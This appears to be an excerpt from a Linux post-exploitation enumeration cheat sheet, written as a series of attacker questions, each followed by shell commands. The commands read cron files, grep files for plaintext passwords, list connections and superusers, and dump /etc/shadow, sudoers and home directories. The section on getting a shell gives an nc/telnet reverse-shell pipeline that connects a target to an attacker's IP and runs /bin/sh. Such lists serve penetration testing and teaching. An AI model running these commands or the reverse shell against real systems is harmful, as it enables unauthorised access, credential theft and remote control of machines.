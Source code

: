 What jobs are scheduled?
~~~
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
~~~
Any plain text usernames and/or passwords?
~~~
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
~~~
What other users & hosts are communicating with the system?
~~~
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
~~~
Have you got a shell? Can you interact with the system?
~~~
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
~~~
Confidential Information & Users
~~~
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
~~~
What sensitive files can be found?
~~~
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
~~~
Anything "interesting" in the home directorie(s)? If it's possible to access
~~~
ls -ahlR /root/
ls -ahlR /home/
~~~